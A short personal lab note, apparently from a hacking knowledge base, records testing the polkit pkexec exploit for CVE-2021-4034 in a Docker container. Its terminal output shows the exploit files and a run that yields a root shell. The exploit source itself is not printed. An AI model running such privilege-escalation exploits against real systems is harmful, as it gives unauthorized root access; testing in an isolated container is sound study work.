 # Test CVE-2021-4034 in a docker Exploit
```
┌──(kali㉿kali)-[~/test/privescdock]
└─$ docker run --rm -it testpkexec
user@bc4803a951e9:~$ ls
Makefile  evil-so.c  evil.so  exploit  exploit.c  policykit-1_0.105-31_amd64.deb
user@bc4803a951e9:~$ ./exploit 
# id
uid=0(root) gid=0(root) groups=0(root)
#    
```

# Related
- [20221003150890](/zet/20221003150890/README.md) Test CVE-2021-4034 in a docker
- ~/kb/hacking/priv-esc/polkit-pkexec-CVE-2021-4034/run-in-docker.md

Tags:
    #assorted #hacking #privesc #run
